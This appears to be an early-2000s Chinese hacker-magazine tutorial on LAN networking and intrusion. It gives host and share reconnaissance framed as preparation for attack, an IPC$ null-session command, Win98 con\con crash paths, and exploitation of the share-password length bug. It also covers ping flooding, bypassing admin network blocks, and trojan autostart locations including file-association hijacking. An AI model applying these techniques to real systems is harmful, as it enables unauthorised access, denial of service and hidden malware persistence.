“广播风暴”就是指过多的广播数据包填满了网络带宽的所有容量。发生这种情况时，网络性能会减慢到极点。

在这种网络结构中，由集线器、粗缆和细缆所构成的物理网络与逻辑子网相对应。通常一个 IP 子网或者 IPX 子网属于一个广播域，因此网络中的广播域是根据物理网络来划分的。这样的网络结构无论从效率和安全性角度来考虑都不能被保证。同时，由于网络中的站点被束缚在所处的物理网络中，而不能够根据需要再将其划分至相应的逻辑子网，因此网络的结构缺乏灵活性。为解决这一问题，从而引发了虚拟局域网（VLAN）的概念，所谓 VLAN，是指网络中的站点不拘泥于所处的物理位置，而可以根据需要灵活地进行逻辑分组，灵活地加入不同的逻辑子网中的一种网络技术。

接下来，我们就来简单了解一下 VLAN 技术。

交换式以太网实现 VLAN 主要有三种途径：基于端口的虚拟、基于 MAC 地址的虚拟和基于网络地址的虚拟。

常见的 VLAN 都是使用交换机并基于端口的虚拟来实现的。基于端口的 VLAN 就是将交换机中的若干个端口定义为一个 VLAN，同一个 VLAN 中的站点具有相同的网络地址，不同的 VLAN 之间进行通信需要通过路由器。采用这种方式的 VLAN，其不足之处是灵活性不好，例如当一个网络站点从一个端口移动到另外一个新的端口时，如果新端口与旧端口不属于同一个 VLAN，则用户必须对该站点重新进行网络地址配置，否则，该站点将无法进行网络通信。

通过这种方法实现的 VLAN 安全性比较高，而且速度上也有一定的保证。

OK！关于 VLAN 就说这么多，大家看起来是不是有点“头大”，没办法，学知识嘛，先难了再消化，总有一天会融会贯通的，如果说第一篇我给大家讲的基础知识看起来还有点“硬”，那下面我给大家准备的东西就比较符合大家的胃口了。

## 二、局域网问题通缉

### 2.1 局域网常见问题

这里，我搜集了一些平时工作中常见的、热门论坛上经常讨论的一些经典问题给大家，相信大家会比较感兴趣，希望能帮助朋友们解决一些实际应用中的问题。

#### 如何获得本网段内所有活动主机的 IP 地址？

入侵局域网的过程中，了解该网段内的主机地址是十分必要的，当得到主机地址后，便有利于进行分析网络的结构，为进一步的入侵做准备。

在这里，给大家提供两种方法来获得本网段内的所有活动主机 IP 地址的方法：

- 1. 使用 Windows 的 `net view` 命令，只要在某一台主机上使用 `net view` 命令就可以看到该网段内所有的活动主机的主机名，如图 6 所示，有了主机名后，只要再 Ping 一下主机名，就可以获得该主机的 IP 了。用这种方法获得主机地址的时候，需要一台一台地去 Ping 才可以，虽然比较麻烦，但完全不需要借助工具的帮助。


- 2. 使用工具 netsuper（局域网超级工具），只要点一下“搜索计算机”就可以获得本网段内所有活动的主机名和 IP 地址，如图 7 所示。使用方法很简单，而且速度也很快。

#### 如何得到对方主机的共享资源？

仍然是黑色的命令行（CMD）和使用局域网超级工具两种办法：

- 1. 使用命令 `net view \\主机名`，就可以获得对方的共享列表，如图 8 所示。

- 2. netsuper（局域网超级工具）的使用方法更简单，只要在左边选中刚才搜索出来的某一台活动主机，然后点“搜索共享”就可以在右边得到对方的共享资源列表了，也可以点“所有共享”按钮，这样便可以搜索所有活动主机的共享资源。

以上两种方法相比，当然推荐使用后者，速度快，效率高！

#### 如何通过主机名获得对方的 IP 地址？相反地，如何通过对方的 IP 地址获得对方的主机名？

如果想干点“坏事”什么的，只有对方的机器名的话，不太方便，所以当然应该想到如何获得对方的 IP 地址。其实方法很简单，我们只要用 Ping 命令就可以了，格式为：

```text
ping 对方主机名
```

这样就会得到对方主机的 IP 地址了。

相反地，通过 IP 来获得对方主机名的话，也是可以的，仍然使用 Ping 命令，不过这次只是用“ping IP”这样的命令就不行了，我们要加个参数“-a”，命令格式：

```text
ping -a 对方IP
```

这样就可以获得对方的主机名了，如图 10 所示。


#### 如何在网上邻居中隐藏自己？

在局域网中，很多人都是通过查看网上邻居来确定对方是否在线的。所以，在网上邻居中隐藏自己，有时候也是一种自我保护的好办法。

讲述方法前，首先了解一下，为什么我们可以在网上邻居中看到对方的主机？根本原因就是 NetBIOS 端口。因为 NetBIOS 端口会透露主机的信息，例如：主机名。

我想大家都清楚，在网上邻居里，为什么看到的活动主机都是主机名而不是主机的 IP 地址呢？这就是因为网上邻居就是依靠 NetBIOS 端口相互交换信息而实现的。想在网上邻居隐身的话，就要关闭 NetBIOS 端口，而 NetBIOS 端口对应的就是 TCP 端口 139，因此只要我们关闭 139 端口就万事 OK 了！

关闭方法很简单，只要删除 NETBEUI 协议，并取消 NETBEUI 协议在 TCP/IP 上的绑定就完成了。在 Windows 98 里只要查看网卡属性就可以找到“绑定”那一项，在那里取消就 OK 了！在 Win2k 里：右键网络邻居，选属性，然后在出现的窗口里选“高级”然后再选“高级设置”，如图 11 所示，在里面，大家就可以看到了，只要把 NETBEUI 协议前的勾去掉，就可以取消绑定了。


另外，如果使用的是 Win2k 的话，也可以通过安全策略来禁止 139 端口，这样也可以达到相同的作用。由于篇幅问题，就不多说了。

通过以上方法，就可以在网络邻居中“隐身”了，不过如果对方在地址栏里键入“\\机器名”（没有引号）的话，还是可以访问主机的，不过我们可以到网卡的属性里将“Microsoft 网络文件和打印机共享”前面的勾去掉，这样的话，就没有人可以通过 UNC 路径来访问你的机器了（UNC 路径就是指形如 `\\ip` 或是 `\\机器名`）。

#### 如何准确地获得本局域网内的网关地址？

如果能够巧妙地侵入局域网内接入 Internet 的网关的话，那么就可以为所欲为了，而且还可以通过 Sniffer 之类的程序嗅探到很多非常有用的信息，所以我们需要准确地判断出网关的 IP 地址。

确定网关地址的过程会根据网络状况分两种情况。

- 1．如果确定这个局域网内只由一个网段组成，例如：所有主机 IP 地址都是 192.168.0.x，子网掩码都为 255.255.255.0，那么只要在命令提示符下使用 `ipconfig /all` 命令就可以了，在结果中会显示有 Default Gateway 一项（如图 12），虚线后边的 IP 就是网关地址了。（一般的网吧都符合这种情况）


- 2．另外还有一种情况，像一些中小型企业局域网、校园网等，绝对不可能由一个网段组成，所以使用上述方式就不可以了。一般来说，这类多网段网络符合这样的模型，如图 13 所示：


从这个局域网模型中可以看出，在一个大的局域网内还有很多小网段，每个小网段都是一个局域网，而且每个小局域网出口处都有一个网关。这样如果还用上面讲述的方法的话，查到的将是每个 LAN 的出口所对应的网关，而无法得到最终对外连接 Internet 的网关。这时候我们就要靠 tracert 命令了。

> tracert 命令的作用是列出数据包发送过程中所有经过的交换设备，当然也包括了网关。

我们在 Internet 上找一台机器，然后直接用“tracert ip”（在命令格式中 IP 处直接填写域名也可以）命令进行数据包跟踪。然后在结果列表中，只要选择最后的一个属于自己的局域网 IP 段内的 IP 地址就可以了，因为从模型中可以看出，网关就是这个局域网内的最后一个交换设备。

如果大家感觉这样还有困难的话，还有个方法：大家注意 tracert 的结果，里面至少会有一行结果形式如：`* * * Request timed out`

我想大家都应该可以猜到，这就是防火墙，因为绝大部分防火墙都屏蔽掉了 ICMP 数据包，所以就出现了这样的结果。因此，根据这个特性，而且我们又知道，多数情况下，局域网的网关是最后一个架在防火墙后的交换设备，那么我们只要找到第一次出现“* * * Request timed out”的前一行，那么这一行显示的就应该是网关的地址了。

大家可以看到图 14，这就是我用 tracert 命令来跟踪到达 sohu 的数据包通过的交换设备的结果（没有跟踪完，跟踪到网关出来的时候我就按 Ctrl+C 结束了），其中在“* * * Request timed out”前的那一行就是我这里的网关了。


#### 为什么不能通过“\机器名”路径访问对方？

这可能是 Windows 操作系统的一个 bug 吧，但并不多见。有些系统在正常绑定了 NETBEUI 协议并选中了“Microsoft 文件和打印机共享”后并不能被访问（即使通过 `\\机器名` 也不能被访问），首先可以在正确安装完所有协议后重新启动一下，如果还不行的话，那么这个时候可以试试以下两个方法：

- 1. 使用 WINS 服务器，使用方法：网上邻居→属性→网卡→属性→Internet 协议（TCP/IP）→属性→高级→WINS→添加，然后就去问你局域网的网管 WINS 服务器的地址，添加完成后再试。

- 2. 编辑 LMHOSTS.SAM 文件（看过 98 共享入侵文章的朋友应该比较熟悉这个文件吧），该文件在 `C:\WINDOWS\system32\drivers\etc` 下，找到后用记事本打开，去掉里面的内容，然后按照下面的格式写上：

```text
机器名（空格）ip地址
```

写完后，保存一下，接下来把文件名改为 `LMHOSTS`，然后到命令提示符（CMD）模式下或是 MS-DOS 下使用命令：`nbtstat -R`，然后会有提示：`Successful purge and preload of the NBT Remote Cache Name Table.`

接着按照刚才的步骤到 WINS 服务器的设置中确定一下“启用 LMHOSTS 查询（L）”被选中，如图 15 所示。

完成以上步骤后，可以试试用网上邻居或是“\\机器名”来访问对方的主机，如果还不行的话，那就去找盖茨吧，我也没办法了。


#### 如何获得局域网中的信息？

这是很多人都会问到的问题，那就是使用 Sniffer 了。但是使用 Sniffer 却得有一些技巧，很多人抱怨使用了 Sniffer 后嗅探不到需要的信息，这很有可能是设置 Sniffer 的地址并不合适，以下图 16 所表述的局域网为例，来讲述一下在一般情况下 Sniffer 应该放置的位置。


很简单，两个 LAN 通过路由器连接。大家可以看出来，两个网段之间所有的交换数据都要通过路由器，那么路由器肯定就是 Sniffer 的首选对象了，如果这时候在第一个与路由器直接相连的主机 A 的话，那么这显然是种最佳 Sniffer 的放置方式，因为它直接与 Router 相连，而且两个网段的相互通信信息完全要经过路由器，这里甚至会包括用户名和口令，尤其是 Telnet 这样的明文传送的程序，更是危险。

> 关于 Sniffer 更为详细的使用技巧方法，请大家参考《黑客 X 档案》2002 年第 3 期的《一网打尽》小专题。

#### 为什么我的 Windows 98 在上网的时候经常蓝屏？

Windows 98 有一个导致蓝屏的漏洞，那就是 `\\con\con`，如果你有共享的话，例如共享 C 盘，那么，只要在“运行”里填上 `\\主机名或IP\c\con\con`，这时候，就给你一个惊喜，你的屏幕变蓝。这是由于硬件冲突造成的，也是 Windows 98 的一个 bug。

## 黑客X档案2002-2003年合订本

## 主题乐园

类似的，还可以使用这些格式：

- `\\主机名或IP\c\nul\nul`
- `\\主机名或IP\c\aux\aux`
- `\\主机名或IP\c\con\nul`
- `\\主机名或IP\c\aux\nul`
- `\\主机名或IP\c\aux\con`

这些都是因为调用硬件而造成硬件冲突，导致蓝屏。是不是感觉很可怕呢？其实不用怕，防御方法也很简单：

如果没有必要的话，就不要共享资源。如果必须共享的话，那么可以下载补丁并更新你的 Windows 98，这样就可以避免。另外，安装防火墙也是可以的。而且，不知道谁写了一个 conconfix，是专门用来修补这个漏洞的。不过，目前这类漏洞很多都已经因为升级或打补丁而过时了。

### 在广域网上，对局域网中的一台主机进行连接，但总是连不上，为什么？

不知道是不是有朋友遇到过这样的问题。其实，从技术上来讲，这是正常的，而算不上什么“问题”。因为局域网内部使用的绝大部分都是不合法的、未经注册的仿真 IP 地址，这些地址通过子网汇聚等技术，来实现共享一个或多个合法的、经过注册的真实 IP 地址来上网。所以一般来说，如果你直接连接对方的局域网内的仿真 IP 地址，是不可能连接成功的。

### 为什么我在广域网上看到的局域网中的某台主机的 IP 地址和那台主机所配置的 IP 地址不一样？

也许很多人都遇到过这个问题，假设：一台主机上配置的 IP 地址是 192.168.0.1，而你在和这台主机的主人聊天的时候发现他的地址是 61.0.0.1，而且你发现这是一个合法的 IP 地址，但是你使用 Ping 命令来 Ping 这个 IP，发现这个地址的主机并没有应答。大家奇怪吧？这其实是使用了 NAT（网络地址转换）。它的作用就是可以将内部网络的地址转换成为它所指定的地址，从而实现了保护内部网络的目的。

更具体的细节读者可以参考《黑客 X 档案》2002 年 6 月总第 2 期的《如何利用 NAT 来保护我们的内部网络》。

### 如何建立 IPC$ 空连接？

很多人都不清楚 Windows 2000 下的 IPC$ 空连接的建立方法，空连接的建立方法就是将用户名和密码都置为空，命令为：

```text
net use \\ip\ipc$ "" /user:""
```

> 注：net 和 use 之间、`\\ip\IPC$` 和 `""` 之间、`""` 和 `/user` 之间都是有一个空格的，但是两个双引号中间都没有任何空格。回车后，会提示命令成功完成。

### 如何关闭 IPC$ 共享？

由于 IPC$ 也属于一种共享，所以我们用 net share 这个“共享”的命令就可以关闭，如图 17 所示。

```text
net share ipc$ /delete  —— 删除 IPC 共享
net share ipc$          —— 打开 IPC 共享
```


## 三、局域网实战篇

### 3.1 常见局域网的屏蔽技术和突破方法

首先，就是常见的两种方法，由于这两种方法比较相近，所以可以放在一起讲。

- 1. 端口屏蔽。就是管理员在网关上做了一些小手脚，屏蔽掉了一些端口，例如屏蔽了 UDP 协议的 4000 端口，那么在默认情况下就无法使用 QQ 了。

- 2. 屏蔽某种特定的协议，这个方法比较狠毒一些，例如，屏蔽掉 UDP 的数据包，这样的话，所有 UDP 数据包在经过网关的时候就会被丢弃，那么像 QQ 这类软件就别想用了。

> 解决方案：以上两种使用端口重定向和数据包转发工具就可以解决了。关于这些东西，我已经在《黑客 X 档案》总第 6 期上曾做过详细介绍，有兴趣的朋友可以去看看，这里就不多说了。

> 笔者提示：在《端口重定向的两个主要应用》文章中，我并没有直接提到如何绕过屏蔽了 TCP 端口的网关，但是我讲了利用 PIPE 绕过指定了屏蔽端口规则的防火墙，其实这都是同样的道理；既然在外面用 PIPE 可以进内网，那么，正面连进去，岂不是没有问题。

接下来，要说一般关于禁止访问特定网站的突破方法。屏蔽一些网站的方法很多，我见过有两种。

第一种：使用 DNS（DNS 的功能就是将大家平时使用的那些网址解析为 IP 地址），相信大多数局域网都是使用自己内部的 DNS 来进行解析上网的，而管理员在配置 DNS 的时候，如果阻止了 DNS 的自动更新并且在配置解析的时候只配置一些指定可以访问的网站，这样的话，除了指定能访问的网站，其他的网站就无法正常连接了。这种方法好像使用得比较少，但是我确实是见过，所以不能否定这种方法的存在。

但是，使用这种屏蔽方法的话，非常容易突破，这种方法只对一些对网络不太了解的人起一定的作用而已，只要有点常识的人，都应该知道，在访问网站的时候，不使用 URL 进行访问，而改用 IP 地址直接访问，就可以突破了。

> 技巧提示：当你无法访问某个网站，但是你在命令提示符下却能 Ping 通该网站的前提下，你可以打开系统安装目录 `\WINDOWS\system32\drivers\etc`，用记事本打开 `hosts` 文件，添加一行“域名 IP地址”，如“www.sohu.com 61.135.131.182”，然后保存，你就能正常访问该网站了。这一招在大多数情况下是绝对有效的。

第二种，就是通过防火墙或是路由器等设备来屏蔽掉指定的 IP 地址（或 IP 地址段）：

这种屏蔽方法比较狠毒一些，防火墙或是路由器等设备会丢弃所屏蔽的发向该 IP 地址（或该 IP 段）的数据包，所以，直接访问是不可能的了。就我个人来说，我感觉只有两种方法，一个是入侵路由器，去修改它的配置，不过这种方法并不容易实现，入侵路由器并不是每个人都能做到的，所以最好的办法还是使用代理；

## 主题乐园

### 3.2 入侵实战讲解

最常用而且也是最简单的入侵（Windows 98 对 Windows 98 的共享入侵）：

如果说，局域网内的入侵与广域网的入侵有不同之处的话，那么我想就是局域网内有大量的共享资源而且网速快而已了。这里我们来简单讲述一下局域网内对 Windows 98 入侵的几个问题。

首先，我们来看看入侵应该有的装备：可以上网并且安装了 Windows 98 操作系统的电脑一台，到“网上邻居”属性里面看一下，把它安装了“Microsoft 客户端”和“Microsoft 文件和打印机共享”，这两项是必须安装的，如果没有安装的话，马上安装。还有就是密码破解工具 Netpass。对方则需要是一台没有打过补丁的 Windows 98，而且还要刚巧这台主机完全共享了一个盘符或是一个文件夹，直接使用 UNC 路径：`\\ip\d` 这样的路径来访问对方的磁盘或是文件夹，如果对方有点防范意识的话，会加上个密码，那么这个时候有两个选择，一个是自己猜，一个是使用工具。


我想 Windows 98 的密码验证漏洞大家知道吧，就是对方检验密码的时候，只按你发送的长度进行检查，也就是说，如果对方密码为 1234，而你在写密码的时候只写 1，那么也可以通过验证，因为对方只检验了长度为一个字节的数字 1，而该数字正好和密码 1234 中的第一位相同，所以就通过验证。所以，如果大家手头没有合适的工具的话，来猜猜也可以啊！

再来说说 Netpass 工具，如图 18 所示，大家都看清楚了吧，没有什么好讲的，使用方法非常简单，只要按序号点一下就可以了。不过这里要注意一点，就是关于“对方主机名”这一项，如果对方和你的主机不是在同一个网段内的话，就只能填 IP 地址了，而不能写主机名。因为由主机名到 IP 地址的解析只在本网段内有效。

具体过程大家可以参考《黑客X档案》上一篇文章。

这里，我要说的是局域网入侵的几个问题：首先我们谈谈工具和系统方面的问题。

> **解决方法**
> 1. 如果你想入侵共享了资源的 Windows 98 的话，那么最好你也使用 Windows 98 的操作系统。
> 2. 如果对方的主机做过以下修改的话，可能会影响入侵，大家可以试试看：
> 3. 对方的系统进行过升级（安装了补丁）；
> 4. 对方的系统安装了更高版本的 IE，一般来说装 IE6 会有一些影响，但是影响好坏是随机的，不能确定具体情况；
> 5. 对方的共享资源为“只读”，我想这就不用我多说了，没有写权限，啥都别搞了；

基本上就是以上几点了，大家入侵的时候要注意一下。另外，有一点和入侵关系不太大的问题，是我在实验过程中发现的，不知道这是不是也是微软送给我们的一个 bug，高手们可以去研究研究：

1. 我使用的是 Win2k Pro 对 Windows 98（第三版）进行共享入侵，对方共享了 D 盘，并设置为“完全”，并加密，密码为：1234。
2. 使用 UNC 路径进行访问：`\\机器名\D`，需要密码，猜解对方密码，输入数字 1，猜解成功，进入对方的 D 盘。这时候，Win2k 的主机就这样不受动，接下来我们到 Windows 98 的主机上动手脚。
3. Windows 98：右键 D 盘，选“共享”，然后修改密码为：2345，确认密码后，修改成功。
4. 在双方都不断开连接的情况下，再回到 Win2k 主机上：点“向上”按钮，这时候看到了对方的共享资源（这里当然也可以看到对方共享着 D 盘），双击 D 盘，这时候会发现，虽然对方修改了密码，但是仍然可以不需要密码就进入，这显然和 Win2k 上修改密码后短时间内仍可用原密码进行登录这个 bug 很相似。

> **它的提示**
> 解决这个问题的方法：在 Windows 98 上重新修改新密码后，取消原来的共享，然后再次打开共享，这时候再访问的话，就需要输入新密码才可以了。不知道这个问题在 Win2k 对 Win2k 的时候还会不会有，我也没有试，大家有兴趣的话可以试试。

## 四、局域网安全全篇

### 4.1 局域网内的一些安全问题

图 1、DoS 攻击

这是一种对线路要求比较高的攻击，在广域网上常常会因为线路的问题而受到一定限制。像我，在家赶着“小猫”上网去 DoS 别人的话，经常人还没当呢，我的机器就先挂了。

然而在局域网内就不一样了，现在大部分局域网都实现了百兆甚至千兆接入，所以，如果是网内的几台机器同时对局域网内的某一台主机进行攻击的话，那么相对就容易多了，最简单的就是使用命令：

```bash
ping ip -t
```

图 2、Smurf 攻击

除了这种 DoS 外，如果局域网内被分割成了几个网段的话，也有可能使用 Smurf 攻击。下面简单介绍一下 Smurf 攻击：

> **它的提示**
> Smurf 攻击是以最初发明这种攻击的程序名 Smurf 来命名。这种攻击方法结合使用了 IP 欺骗和 ICMP 回应方法，使大量网络传输充斥目标系统，引起目标系统拒绝为正常系统进行服务。

LAN3 中的“主机 B”是攻击主机，LAN1 中的“主机 A”是被攻击主机，LAN2 中的主机在这次攻击过程中充当替罪羊。过程是这样的：主机 B 先向 LAN2 的广播地址发送一个 ping 命令，按规定应该丢掉，ping 命令实际上就是一个 ICMP 的应答数据包，也就是说，被 ping 的主机一定要回复发出 ping 命令的主机。按正常情况来说，LAN2 的主机会回复主机 B，然而事实并非如此，因为主机 B 在发送 ping 命令的时候，已经将应答地址伪装成主机 A 的地址，那么这样一来，LAN2 中的所有主机都将接收到 ping 命令并且都会回复主机 A，如果 LAN2 中的主机足够多的话，那么这就形成了可怕的 DoS，致使 LAN1 中的主机 A 被 DoS 掉。

这个过程在广域网中比较难实现，因为如果在广域网中选择一个可以 ping 通的局域网并不容易，主要是因为现在大部分的局域网的防火墙都屏蔽掉了 ICMP 的 echo 请求（ping）。我们这里假想主机 A 和主机 B 都为广域网上的机器，而 LAN2 是一个局域网，那么当主机 B 对 LAN2 发送 ping 命令的时候，一定会被 LAN2 的防火墙屏蔽掉，即使它伪装成了主机 A，也无法实现 Smurf。

而在局域网内就不一样了，我想很少有局域网的网管会在局域网内各网段之间的路由器上设置对 ping 命令（ICMP 的 echo 请求）的屏蔽吧！看了很可怕吧？不过，只要大家在路由器上屏蔽掉 ICMP 的 echo 数据包就可以了。但是，这样也不够完美，因为 ping 命令在局域网内是一个很有用的命令，如果把这个命令就这么屏蔽掉了实在太可惜了，所以……我们还有办法。

大家看了图 19，也许会注意到，主机 B 向 LAN2 发送的是 LAN2 的 IP 广播地址，然而这个广播组经过了路由器。按说路由器的朋友应该知道，默认情况下，路由器是屏蔽掉广播的，那么又是怎么过去的呢？


原因是：路由器接收到这个发送给 IP 广播地址的分组后，会认为这就是广播分组，并且把以太网广播地址 `FF:FF:FF:FF:FF:FF` 映射过来。这样路由器就接收到该分组，会对本地网段中的所有主机进行广播。这里便是我们的入手点，我们只需要制止路由器将 IP 广播映射为 LAN 的广播，就可以解决问题了。具体怎么配置那就是网管的事了，我们就不需要操心了。

### 4.2 信任关系的问题

这个涉及到较多知识点，就不细讲了。只是简单地说几句，尤其是在配置域和域之间的信任关系的时候，千万要注意，那就是双向和单向信任的问题，很有可能会因为信任关系配置不当而被攻击者利用。

另外，大家都应该清楚，UNIX 的主机对信任关系的判断依据就是 IP 地址，虽然使用 IP 进行信任关系的欺骗相对比较难，但并不是做不到的，所以也是要小心的。

## 五．后记

局域网今天就给大家浮光掠影地讲这么多，其实还有更多问题需要自己去深入和思考，这里把一些基础知识和具体试验串在一起，也算是让读者朋友们初尝浅辄一下。现在很多人上网都是通过局域网进行的，所以希望大家在实践中也能主动去发现一些问题，并能解决碰到的问题。

本文的安全问题讲得并不多，但实际上局域网比广域网要危险得多，因为入侵很大一部分是来自内部的，作为一个相对狭小的空间，局域网的内部入侵将显得更加方便和突出。好了，今天只能给大家讲这么多，也希望读者朋友看后能有些收获。但是作为我首次执笔写一个专题性质的文章，很多局限和疏忽是难以避免的，所以我恳请朋友们能给我提提意见或是直接指出不对的地方，使我能和大家交流，以便提高自己的网络技术与行文水平。我的信箱：g-python@263.net。

## 附录部分：

## 一、几个在局域网内常用的命令：

- `net view`  
  直接使用的话，便可以查看本网段的机器（查看当前域中的计算机）。

- `net view \\ip` 或是 `net view \\机器名`  
  这样可以查看该机的共享资源了。

- `net view \\domain`  
  查看指定域中的计算机。

- `net send ip(或是机器名) message`  
  向指定的 IP 地址或是机器发送信息。

- `net share 共享名=路径`  
  用来共享的一个命令，举例：`net share c=c:\winnt`。  
  这样的话，访问共享名为 c 的共享的时候，就会进入 `c:\winnt`。

- `net share 共享名 /delete`  
  这样就可以删除共享。

- `net stop service`  
  停止某个服务。

- `net start service`  
  启动某个服务。

- `net help services`  
  用来列出用户可以启动的网络服务。

这几个就是在局域网中常用的命令，至于其它常用命令的用法和在广域网中的用法相同，在此就不列出。

## 二、Windows 98 下木马种植地（部分也适用于 Win2k）：

其实，在 Windows 98 下种植木马最值得注意的就是随系统自启动，这才是最关键的。因此我们将找一些可以随着系统启动而调用程序的位置来种植木马：

1. autoexec 文件

最常被利用的文件，只要在里面写上一句 `c:\windows\trojan.exe`（木马路径），到时候系统启动的时候自然就会执行你木马的服务端了。

2. Win.ini

经常被人遗忘的地方，这个文件可是系统初始化时候要调用的文件，粗心者不可放过。

`[windows]`  
`load=file.exe`  
`run=file.exe`

以上的 file.exe 处写上木马服务端路径。

3. System.ini [boot]

`Shell=Explorer.exe file.exe`

这里是 Windows 98 用来加载 shell 的地方，看到没？加载的那个 Explorer.exe，这个可就是资源管理器啊。同样，在 Explorer.exe 后边空一格，然后写上木马路径，就可以随着 Windows 98 的资源管理器界面而启动了。

4. Registry 键（适用于 Win2k）

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]`

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]`

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]`

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]`

`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]`

`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]`

`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]`

对注册表比较熟悉的朋友都应该清楚了吧？这里也是藏马的好地方。如果你对注册表还不是很熟悉的话，那么赶快恶补一下吧。

5. `c:\windows\winstart.bat`

一个不太引人注意的文件，但每次都随系统启动，所以大家也不能放过。

6. 自己做的关联木马（适用于 Win2k）

```reg
[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@="\"%1\" %*"

[HKEY_CLASSES_ROOT\comfile\shell\open\command]
@="\"%1\" %*"

[HKEY_CLASSES_ROOT\batfile\shell\open\command]
@="\"%1\" %*"

[HKEY_CLASSES_ROOT\htafile\Shell\Open\Command]
@="\"%1\" %*"

[HKEY_CLASSES_ROOT\piffile\shell\open\command]
@="\"%1\" %*"

[HKEY_LOCAL_MACHINE\Software\CLASSES\batfile\shell\open\command]
@="\"%1\" %*"

[HKEY_LOCAL_MACHINE\Software\CLASSES\comfile\shell\open\command]
@="\"%1\" %*"

[HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command]
@="\"%1\" %*"

[HKEY_LOCAL_MACHINE\Software\CLASSES\htafile\Shell\Open\Command]
@="\"%1\" %*"

[HKEY_LOCAL_MACHINE\Software\CLASSES\piffile\shell\open\command]
@="\"%1\" %*"
```

这些 `"%1 %*"` 需要被赋值，如果将其改为 `"server.exe %1 %*"`，`server.exe` 将在每次启动时被执行，这些 exe/pif/com/bat/hta 等文件都可被执行。


## 黑客X档案2002－2003年合订本

## 呆呆虫问吧

问：QQ 密码侦探 1.2 版一旦运行就自动隐藏，而且用杀进程的软件也找不到，据说需要到注册表里删除，请问想要删除它具体应该怎么做？

答：任何程序都会出现在进程里的，QQ 密码侦探 1.2 版也不例外，只不过作者采用了偷梁换柱的手法：正常情况下，`C:\WINDOWS\SYSTEM\` 里有一正常程序 `internat.exe`，大小是 32K，QQ 密码侦探 1.2 版运行后，首先把正常的 `internat.exe` 移到 `C:\WINDOWS\` 目录下，然后将自己改名为 `internat.exe`，并自动复制到 `C:\WINDOWS\SYSTEM\` 里运行，所以一般人找不到它。但你只要仔细看文件大小就会发现，此时 `C:\WINDOWS\SYSTEM\` 里的 `internat.exe` 的大小已经是 224K 了，和你下载时压缩包里的 `QQSpy12.EXE` 的大小一样。现在要清除它不难了吧？首先确定 `C:\WINDOWS\SYSTEM\` 里的 `internat.exe` 大小是不是 224K，如果是，就证明它是 QQ 木马，然后在进程里终止它，再从 `C:\WINDOWS\SYSTEM` 里删除它就 OK 了！顺便说一句，该木马偷取的 QQ 密码在 `C:\WINDOWS\` 目录里的 `Winplw.ini` 文件里，可以用写字板打开！

问：我的 QQ 号被别人盗了，我很着急，我该怎么找回我的 QQ 密码？用盗号软件能找回来吗？

答：QQ 号被盗是目前最常见的现象，唯一有效的办法就是申请密码保护。破解 QQ 密码的软件比较多，但都是暴力破解，对付那些密码设置简单的 QQ 很有效，但密码稍复杂就不可能破解了。你的密码被盗，估计偷盗者不会把密码设置得很简单的，所以，如果没有申请密码保护的话，找回的可能性还不大。

问：中了视窗炸弹（多指包含有恶意代码的网络文件）怎么办？

答：按 Ctrl+Alt+Del，然后把那个有炸弹的主窗口关掉，最好是关掉本机的 Java 功能，不轻易打开别人发给你的 URL（统一资源定位符的意思，简单地说就是那个一大串长长的网址）。

问：有一个问题我想问一下，是关于卡饭蠕虫的“OICQ 远程攻击测试程序”，这个软件真的是非常厉害啊！不知道什么软件能防住它呢？天网是不好用的。

答：这个软件只对 QQ2000B 0710 以前的版本有效，重新下载一个新的 QQ 就没有事情了。

问：我找到了一些中了冰河的机子，但后来添加主机总是就遇着了麻烦，不是提示“对方计算机没有响应”就是“正在四处收集信息……”这是怎么搞的？还有，我再上网聊天时，有时打出的字，会被一个字一个字地消掉。这是不是有人进了我的机子呢？如果是的话，我该怎么找出他呢？我的 IE 被加了一个密码，就是分级审查的，我该怎么去除它的限制呢？

答：冰河进不了别人机器也是很正常的，比如对方有不错的防火墙，即使他中了冰河，你也进不去，因为数据包被防火墙拦截了，其他情况也还会有，就不一一举例了。至于你打出的字一个个被消掉，我没碰上过，如果你中了木马，大部分木马都应该在注册表的启动组里写着了，你可以去看看有没有。还有，用 Windows 自带程序 `DRWATSON` 可以查看正在运行的程序的进程，你也可以在那里查看。如果确定了某种木马，那清除就容易了，不知道可以到网上找。分级审查的问题也容易，分级审查的密码也在注册表里，`hkey_local_machine\software\microsoft\windows\currentversion\policies\ratings`，就在这里面了，除默认外，把别的都删了，然后打开 IE，去禁止分级审查，IE 会要你输入两遍密码，也就是说已经没密码了，你随便打两遍一样的字符串就可以了。

问：我每次上网一到下午 5：50 分左右，我的机器都会自动重启，每次都如此。再后来，重启后机子就不行了，一点击桌面的图标、开始菜单，反正就是一按鼠标就弹出一个对话框提示：Explorer 发生错误，Explorer 即将关闭。如果仍有问题，请尝试重新启动计算机。我重启多次后还是如此！接着就更坏了，重启也不行了，一直是光驱的灯就闪个不停了。这时我只好关机了。过十五分钟后又开机还是如此，以后我就隔十五分钟开一次，还是如此。后来我只好用光盘来启动进入 DOS，启动杀毒软件，每次扫到第 14*** 个文件时，机子又重启了，这回连光驱也启动不了了？

答：这样的事我没碰上过，可能是病毒，如果要确定是不是，可以这样：你可以用启动盘来启动一下，记得写保护呀，然后在 C 盘根目录下建立三个文件，文件名随你便，只要你记得住，不过扩展名不可以胡来了。比如吧，你建三个文件，分别叫 `111.exe`、`111.com`、`111.bat`，记住文件长度，呵呵，你用 EDIT 的话，文件长度应该是零吧。一般来说，大部分病毒都会感染这种类型的文件。你就开一会吧，然后下次再开机，看看这三个文件长度有没有改变，如果有改变，那就应该是病毒了；如果没有，那更可能是别的问题，你再想办法了。实在不行，格式化重装系统吧。

问：朋友在某单位工作，Email 也在该公司的主页上，但我不知道他的 POP3 服务器，不像 `www.21cn.com` 的就是 `pop.21cn.com`，我怎么才能知道呢？

